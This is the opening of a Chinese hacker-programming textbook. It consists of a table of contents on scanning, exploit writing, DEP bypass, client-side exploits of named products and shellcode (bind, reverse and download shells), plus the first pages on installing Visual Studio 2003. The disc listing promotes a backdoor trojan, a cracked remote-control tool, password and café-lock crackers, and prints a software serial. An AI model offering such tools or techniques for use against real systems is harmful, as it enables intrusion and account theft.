# 黑客编程入门 2

作者：王炜



## HACKERXFILES

WWW.HACKERXFILES.NET

- 编程基础知识
- 网络编程基础
- 端口与漏洞扫描编程
- 漏洞利用编程
- 客户端漏洞的利用
- Shellcode 编程基础


## 图书简介

这是王炜继《黑客编程入门》之后又一本经典的黑客编程入门图书。与《黑客编程入门》相比，本书仍然以 C/C++ 为例，重点内容放在了漏洞利用程序、Shellcode 的编写上，但同时考虑到广大网络编程初学者的水平，在本书的前两章又详细介绍了编程的基础知识以及网络编程的基础知识，很好地兼顾了初学者。

全书共分为六章，第一章：编程基础知识；第二章：网络编程基础；第三章：端口与漏洞扫描编程；第四章：漏洞利用编程；第五章：客户端漏洞的利用；第六章：Shellcode 编程基础。另外，我们在随书光盘中收录了本书相关的程序源代码以及相关的一些工具软件，以供大家更好地学习使用。

因水平有限，书中如发现错误，还请各位读者谅解。如果大家对于该书有什么更好的建议和意见，可以通过电子邮箱 hackerxfiles@263.net 与我们联系；对于本书中涉及到的一些技术问题，也可以登录我们的官方论坛 http://bbs.hackerxfiles.net 来一起进行探讨学习！

出品人：孙胜利

主编：杨冬柱

编辑部：sagj/呆呆虫/虫虫/hackest  
石头/黄色潜水艇/笨牛牛

特约编辑：ww0830/zj1244/阿布  
姜超/孟方明

光盘部：丛林

设计：谭海梅

排版：Bifrost

发行部主任：赵琦

E-Mail：hackerxfiles@263.net

邮购查询电话：(010)88560080

发行联系电话：(010)88561472

联系人：赵琦

定价：人民币 28 元

杂志订阅及数字版与广告代理：gotoread.com 浏览网

## 目录

# 第一章 编程基础知识

- 1.1 VC.NET 基础 ................................ 8
- 1.1.1 .NET 和 VC++.NET 简介 ........................ 8
- 1.1.2 Visual Studio 2003 的安装 ................... 8
- 1.1.3 安装 MSDN ................................... 9
- 1.2 入门小例 .................................... 10
- 1.2.2 stdafx.h 是什么 ............................. 11
- 1.2.3 头文件的作用 ................................. 12
- 1.2.4 #pragma once 是什么意思 ..................... 12
- 1.2.5 编译链接的过程 ............................... 12
- 1.2.6 第一个完整的输出程序 ......................... 13
- 1.3 VC 是什么 ................................... 14
- 1.3.1 编译器 ...................................... 15
- 1.3.2 生成 debug 和 release ....................... 16
- 1.3.3 IDE 界面 .................................... 19
- 1.3.4 版式规范和快捷键 ............................. 20
- 1.3.5 MFC ......................................... 21
- 1.4 C 语言简介 .................................. 22
- 1.4.1 C 语言的历史 ................................. 22
- 1.4.2 C 语言的字符集 ............................... 22
- 1.4.3 C 语言的词汇 ................................. 22
- 1.4.4 基本数据类型 ................................. 24
- 1.4.5 变量的命名规范 ............................... 26
- 1.4.6 数组 ........................................ 27
- 1.4.7 控制流程 .................................... 28
- 1.4.8 程序复杂度 ................................. 31
- 1.5 在 VC 中调试 ................................. 32
- 1.5.1 打印调试示例 ................................. 33
- 1.5.2 获得某段程序的执行时间 ....................... 34
- 1.5.3 单步调试和调试窗口 ......................... 35
- 1.5.4 断点和条件断点 ............................... 36
- 1.6 Windows API ................................. 37
- 1.6.1 Windows API 简介 ............................ 37
- 1.6.2 Windows API 示例 ............................ 38
- 1.6.3 ANSI 和 Unicode ............................. 39
- 1.6.4 C 和 API 的区别 .............................. 39
- 1.7 编写 MFC 程序 ................................. 40
- 1.7.1 MFC 简介 .................................... 40
- 1.7.2 MFC 示例 .................................... 40

# 第二章 网络编程基础

- 2.1 计算机网络通信编程方法 ............ 42
- 2.1.1 基于 NetBios 编程 ............ 42
- 2.1.2 基于 Windows Socket 编程 ............ 44
- 2.1.3 基于 WinPcap 编程 ............ 44
- 2.1.4 基于物理设备编程 ............ 45
- 2.2 网络通信协议原理和结构 ............ 45
- 2.2.1 ISO/OSI 七层模型 ............ 45
- 2.2.2 TCP/IP 协议 ............ 46
- 2.2.3 TCP/IP 通信流程 ............ 50
- 2.3 Windows Socket 编程 ............ 50
- 2.3.1 Socket 介绍 ............ 50
- 2.3.2 Windows Socket 和公用函数 ............ 51
- 2.4 传送名字——网络编程例子之一 ............ 55
- 2.4.1 服务端流程 ............ 55
- 2.4.2 服务端测试 ............ 56
- 2.4.3 客户端流程 ............ 57
- 2.4.4 客户端实现和联调 ............ 58
- 2.5 Socket 编程的一些细节 ............ 59
- 2.5.1 主机字节顺序和网络字节顺序 ............ 59
- 2.5.2 IP 地址的 C 语言定义 ............ 60
- 2.5.3 常用协议头部的 C 语言结构 ............ 61
- 2.5.4 校验和的计算 ............ 61
- 2.6 自动改变本机 IP 为空闲地址——网络编程例子之二 ............ 65
- 2.6.1 ARP 协议 ............ 65
- 2.6.2 获得空闲 IP 地址 ............ 66
- 2.6.3 自动改变本机 IP 地址 ............ 67
- 2.7 MFC 对 Windows Socket API 的封装 ............ 69
- 2.7.1 面向对象编程的思想之一——封装 CAsyncSocket ............ 69
- 2.7.2 面向对象编程的思想之二——继承 CSocket ............ 71
- 2.7.3 CSocket 编程例子——网络编程例子之三 ............ 72
- 2.7.4 面向对象编程思想之三——多态性 ............ 73
- 2.7.5 CMyAsyncSocket 类的继承和封装——网络编程例子之四 ............ 73

# 第三章 端口与漏洞扫描编程

- 3.1 端口扫描编程 ............ 76
- 3.1.1 端口扫描的原理及技术分类 ............ 76
- 3.1.2 TCP Connect 扫描 ............ 76
- 3.1.3 主机存活性探测 ............ 90
- 3.1.4 TCP SYN 端口扫描 ...... 100
- 3.2 漏洞扫描 ...... 105
- 3.2.1 基于网络的漏洞分类 ...... 105
- 3.2.2 溢出漏洞扫描 ...... 106
- 3.2.3 弱口令扫描 ...... 113
- 3.2.4 SQL 注入漏洞扫描 ...... 121
- 3.3 综合扫描工具的编写 ...... 141
- 3.3.1 需求分析 ...... 141
- 3.3.2 界面设计 ...... 142
- 3.3.3 概要设计 ...... 144
- 3.3.4 详细设计 ...... 145
- 3.3.5 框架的搭建 ...... 149
- 3.3.6 模块的实现与测试 ...... 153

# 第四章 漏洞利用编程

- 4.1 漏洞利用 ...... 154
- 4.1.1 本地漏洞 ...... 154
- 4.1.2 远程漏洞利用 ...... 154
- 4.2 漏洞程序的利用编写 ...... 156
- 4.2.1 一个漏洞程序 ...... 156
- 4.3 覆盖异常处理链 ...... 169
- 4.3.1 问题的提出 ...... 169
- 4.3.2 Windows 下异常处理简介 ...... 170
- 4.3.3 覆盖异常处理——JMP EBX ...... 171
- 4.3.4 实际例子：Serv-U 漏洞的利用 ...... 172
- 4.4 一些常见的溢出检测及绕过措施 ...... 174
- 4.4.1 基本的防范 ...... 174
- 4.4.2 利用整数下溢绕过过滤 ...... 175
- 4.4.3 利用整数上溢绕过过滤 ...... 175
- 4.4.4 利用整数截断造成溢出 ...... 176
- 4.4.5 短整数溢出的实际例子：WebDav 漏洞 ...... 176
- 4.5 突破 XP SP2 下栈不可执行保护 ...... 177
- 4.5.1 DEP 保护简介 ...... 177
- 4.5.2 return into libc ...... 179
- 4.5.3 利用 TEB ...... 180

# 第五章 客户端漏洞的利用

- 5.1 ActiveX 漏洞的利用 ...... 182
- 5.1.1 ActiveX 简介 ...... 182
- 5.1.2 ActiveX 控件入门：IE 任意执行漏洞 ...... 182
- 5.1.3 ActiveX 的调用：百度超级搜霸代码执行漏洞 ...... 183
- 5.1.4 Heap Spraying：支付宝漏洞 ...... 185
- 5.1.5 覆盖返回地址覆盖异常链：QQ 漏洞 ...... 189
- 5.1.6 “盲”打造利用代码：UC 漏洞 ...... 192
- 5.1.7 对抗措施 ...... 193
- 5.2 IE 漏洞的利用 ...... 194
- 5.2.1 IE 漏洞入门 ...... 194
- 5.2.2 IE 跨域漏洞和免杀 ...... 196
- 5.2.3 IE 的溢出漏洞 ...... 197
- 5.2.4 智能网马 123 ...... 200
- 5.2.5 JavaScript 内存探讨：精确定位 SP2 堆分配地址 ...... 203
- 5.2.6 分析漏洞的艺术——补丁比较 ...... 206


# 第六章 Shellcode 编程基础

## 6.1 Shellcode 初步介绍

- 6.1.1 Shellcode 中字符串的构造技巧 ...... 210
- 6.1.2 手把手突破防火墙的 Shellcode ...... 212
- 6.1.3 打造通用的完美 Shellcode ...... 217

## 6.2 Shellcode 编码

- 6.2.1 编码的用处 ...... 222
- 6.2.2 异或大法 ...... 222
- 6.2.3 全数字字母的 Shellcode ...... 225
- 6.2.4 Unicode 的 Shellcode ...... 227
- 6.2.5 多态 Shellcode 简介 ...... 228

## 6.3 高级 Shellcode 编写

- 6.3.1 200 字节的通用 Shellcode ...... 228
- 6.3.2 搜索 Shellcode ...... 231
- 6.3.3 用 C 直接生成 Shellcode ...... 232
- 6.3.4 复用 socket 突破防火墙 ...... 235
- 6.3.5 分段 Shell 绕过长度限制 ...... 237

## 6.4 Shellcode 的一些模板

- 6.4.1 绑定 Shell ...... 238
- 6.4.2 反向 Shell ...... 239
- 6.4.3 下载 Shell ...... 239
- 6.4.4 网页中 Shellcode 的生成 ...... 240
- 6.4.5 NCR 编码 Shellcode 的生成 ...... 240

## 光盘目录

## ★图书相关★

IRIS V4.0：Iris 网络流量分析监测原型，可以帮助系统管理员轻易地捕获和察看用户的使用情况，同时检测到进入和发出的信息流，会自动进行存储和统计，便于察看和管理。

MySQL：是一个多线程的结构化查询语言（SQL）数据库服务器。SQL 在世界上是最流行的数据库语言。MySQL 的执行性能非常高，运行速度非常快，并且非常容易使用，是一个非常棒的数据库。

BDS 3.0：功能强大的注入工具。

TFTPDWIN：Windows 98/Me/2000/XP/2003 平台下一款多线程的 TFTP 协议服务器。二进制文件和文本文件的传送和接收它都支持，并可同时进行 50 个传送任务。

Serv-U 4.1：非常好的 FTP 服务器软件。它设置简单、功能强大、性能稳定，你现在就可以建立你自己的 FTP 服务器了。

百度超级搜霸 5.4.4：使用百度超级搜霸，无需登录百度网站即可体验百度搜索的强大功能。

IDA：IDA 是逆向工程必备的工具。

OLLYDBG：OllyDbg 是运行在 Windows 系统下的一个单进程、多线程的分析代码级调试工具。它可以调试 PE 格式的执行文件及动态链接库。

UltraEdit 32：UltraEdit 是一个功能强大的文字编辑程序的替换程序，支持无限制的文件大小、100,000 个词语的拼写检查、完整的十六进制编辑功能，以及可配置的适合程序设计的语法加亮、列编辑。

## ★系统进阶★

黑客实用工具 V3.0，包含众多黑客网站以及常用站点。

上兴远程控制 VIP SP3 1101 破解版，功能强大的远程控制软件。

OZone 密码破解工具，自动获取的使用方法：打开带密码的 QQ 空间，将地址栏的网址粘贴到地址里，点“获取”就会自动分离出要破解的 QQ 号码和问题。

万象破解王 2007，使用说明：普通破解，破解会终止部分系统进程，终止万象进程；深度破解，深度破解会关掉除系统进程外所有的进程和万象进程。系统设置密码读取，可以读取系统设置密码；管理员解锁密码，可以读取管理员上机密码。

MVNC（可视版 NC），这个软件是在看到那个叫可视化的 NC 后诞生的。

X-door[329]，X-door 属于反弹连接集中管理型远程监控程序（DLL 后门）或木马，看你怎么认为了……具有穿透防火墙、无窗口、启动项、进程等特征。

Visual Basic 6.0，功能强大的编程工具。它面向对象进行 Windows 编程，因其卓越的性能和面向对象的可视化编程环境，而备受程序开发人员的青睐。安装序列号：1111-1111111。

## ★电脑培训★

- VB 编程的资源释放调用
- 制作个性绿色单文件的 QQ
- 邮件发送程序编写教程
- Delphi 初级教程
- 木马编程技巧系列教程进程隐藏教程
- 黑客编程技巧
- 黑客编程入门
- 木马编程技巧系列教程之 Winsock 木马制作
- 学习编程基础讲座
- 揭开病毒和木马的神秘面纱
- Java 编程之连接数据库
- 黑客编程之 Windows 注册表
- 黑客编程之注册表相关技术应用
- VB 编程之浏览器篇


## ★电子书籍★

- C++ 编程思想
- C 语言编程技巧程序集
- C 语言最新编程技巧 200 例
- Instant ASP 实例解析 ASP 网站编程
- PHP 核心编程
- SQL Server 2000 程序员指南
- Visual Basic 6.0 编程实例精解
- VISUAL BASIC 编程标准
- Visual Basic .NET 实用全书
- 精通 PHP4 网络编程
- 突破 Delphi 7.0 编程实例五十讲
- 突破 JavaScript 编程实例五十讲


# 第一章 编程基础知识

“真是铁打的校园，流水的学生啊。”望着讲台下坐得笔直的新学生，讲台上的老师心里不由得感慨道。看到一双双求知的眼睛都望着自己，老师清了清嗓子说道：“同学们，大家都是来学习这门课程的吗？”

“是的！”小菜们回答道。

“很好，那知道这门课程是什么吗？”

“知道啊，网络编程啊！”

“对，网络编程，那大家都想学习一些什么样的程序呢？”老师又问道。

“黑客攻击程序！”“盗密码程序！”“远程监控程序，哈哈哈……”小菜们叫道。

老师差点没晕过去，“大家学习技术是没错的，但绝不能拿来做坏事，‘黑客’这个词原本也不是指搞破坏的那些人，大家明白吗。”

“哦？”小菜们将信将疑。

“真正的黑客是指那些深入研究技术并无私公开的人。以前，DIY 计算机硬件的人也被称为黑客，其实那些写操作系统和编译器的天才，才是黑客！”

“哦，原来是这样啊，那我们也努力成为深入研究网络技术的‘黑客’吧。”

“这样才对呀！”老师满意地说道，“那我们就开始学习网络编程技术吧。我们会逐步地学习主机扫描、漏洞探测、漏洞利用、病毒查杀等工具的编写技术等。”

“哦，这么多啊，那……是否很难呢？”小菜们胆怯地问道。

“不要怕，大家一步步地学习，一步步地解决问题，一定会有所收获！”老师肯定地说道，“鉴于大家都是新手，我会从头讲解，并详细地解释每个过程。大家遇到了什么问题，也可以随时打断我，大家一起讨论。”

“好耶！那 Let’s Go 吧。”

## 1.1 VC.NET 基础

“以前，我在这门课上讲述的是基于 VC6.0 下的黑客编程。不过，时间过了这么久，技术也在不断地发展，我们的学习也要随着发展吧。”老师说道。

“嗯，对啊！”小菜们赞同道。

“所以，这次我们就用 Visual C++ 作为开发工具吧，Visual C++ 2003 是 Visual Studio 2003 中的开发工具，首先我们来看看 .NET 和 VC2003 是什么吧。”

### 1.1.1 .NET 和 VC++.NET 简介

“.NET 是微软以服务的方式递交软件的一种策略，它是微软公司的新型战略，所有微软产品都将围绕这个战略开发。.NET 能使用户通过 Web 与众多的智能设备交互，同时确保用户控制这个交互。.NET 能使用户对应用程序、服务、个性化设备的体验简单、一致而安全。”

“.NET 的策略是将互联网本身作为构建新一代操作系统的基础，对互联网和操作系统的设计思想进行合理的延伸。这样，开发人员可以摆脱受硬件束缚的应用程序，以便轻松实现互联网连接。.NET 是通向计算时代的一个非常重要的里程碑。”

“随着微软公司推出了重要战略 .NET 计划，为了适应 .NET 平台，又同时推出了整套 Visual Studio .NET 开发平台，这其中就包括了 Visual C++ .NET。微软的 .NET 本质是全面支持各种面向网络体系结构的应用，其中最重要的是 Web 服务、Web 应用和多层分布式计算等。Visual C++ .NET 是 Visual C++ 6.0 的后续版本，也称为 Visual C++ 7.0，它仍然是 Windows 操作系统下的应用软件开发工具，全部支持 .NET 平台。”

“VC2003 是 Visual Studio 2003 里面的开发工具，它可以用托管扩展语言开发 .NET 框架程序，也可以与 MFC 联手开发桌面程序。当然，大家想编写的漏洞扫描、漏洞利用等工具，还是传统的桌面程序。”

### 1.1.2 Visual Studio 2003 的安装

“好了，说了这么多，我们来安装 Visual Studio 2003 以及其中的 Visual C++ 2003 吧。”

“.NET 2003 有三张光盘，分别是 Prerequisites Disc、CD1 和 CD2。将 CD1 光盘放入光驱后进行安装，安装程序会自动查询有哪些组件需要安装，如图 1-1。”



“快点击安装吧！”心急的小菜连忙说道，“咦？要求重启，如图 1-2。”

“那大家就重启吧。”老师神秘地笑道。

重启后，小菜们再次点击安装，“啊？为什么还是要求重启呢？”看到那个要求重启的对话框再次弹了出来，小菜们大吃一惊。

“呵呵，那是因为电脑中有任务没有执行干净，会在注册表的 HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Session Manager\PendingFileRenameOperations 中体现出来。我们进入注册表把这个键删除就可以了。”

“我们点击‘开始’—‘运行’，在运行栏中输入 Regedit，如图 1-3。”



“注册表就会弹出来了，我们找到对应的地方，大家看。”老师指着图 1-4 说道。

“有一个什么 tmp 文件的改名操作没有成功啊。”小菜们恍然大悟。

“嗯，估计那个文件早就不在了，所以不可能成功的，我们把它删掉吧。”老师点击了 Del 键，将其删除，“我们再安装试试。”





“这下成功了。”小菜们看见安装程序开始自动检测了，检测的结果显示没有安装 IIS 服务，如图 1-5。

“IIS 可以跳过不安装，但这样就不能开发 Web 服务项目了。”老师说道，“我们不需要 IIS，可以跳过其安装，然后根据提示插入 Prerequisites Disc，再依次根据提示插入光盘，逐步安装即可。”



### 1.1.3 安装 MSDN

“终于安装完了！”等待了一会儿，小菜们看见安装成功的提示，高兴地说道。这时，安装向导弹出了第 3 步的提示信息，如图 1-6。

“嗯，产品文档，安装 MSDN Library，这需要安装吗？”小菜们问道。

“编程离不开文档，而在 Windows 下编程，一定离不开 MSDN！”老师边安装 MSDN 边肯定地回答道。

“MSDN 是什么呢？”

“MSDN 是 Microsoft Developer Network，它不仅仅是 .NET 的帮助文档，它比一般的软件帮助文档强大很多，支持各种关键字的查询，可以在网上动态查询，和全世界的 developer 交流。”

> 小知识：MSDN 是微软当前提供的有关编程信息的最全面的资源，它包含微软最新的技术数据库，加上易学易用的全文检索功能，可以让开发人员迅速找到任何需要的技术参考数据，并随时拥有与全世界同步的技术，掌握最丰富的程序开发资源。



“MSDN 中包含大量的开发文档、技术文章和示例代码。MSDN 包含的信息非常全面，程序员不但可以利用 MSDN 来辅助开发，还可以利用 MSDN 来进行学习，从而提高自己。对于初学者来说，学会使用 MSDN 并从中汲取知识是必须要掌握的技能。我们在程序开发过程中，没有必要去死记硬背函数的调用语法和参数信息，只要能快速地从 MSDN 中找到所需的信息就可以了，等使用的次数多了，这些函数自然也就记住了。”

“对于新手来说，最好的就是先把 MSDN 所讲的都消化了。”老师最后说道，“要提高编程水平，需要多读程序，多写程序，以及多查 MSDN。在后面我们会看到 MSDN 的使用方法的。”

## 1.2 入门小例

“安装了这么久，大家都辛苦了，我们来看看如何编写一个程序，体验一下自己动手的成就吧。”

### 1.2.1 建立控制台工程

“有必要提醒一下，鉴于大家都是新手，我会在第一次操作的时候，详细地解释每一个步骤，大家可要好好做笔记哦。以后除了在需要注意的地方我会点出来外，就不会重复这个过程了。”

“好的！”小菜们睁大了眼睛，生怕错过了一个细节。

“我们点击‘开始’菜单，选择‘程序’里面‘Microsoft Visual Studio .NET 2003’下的‘Microsoft Visual Studio .NET 2003’，如图 1-7。”

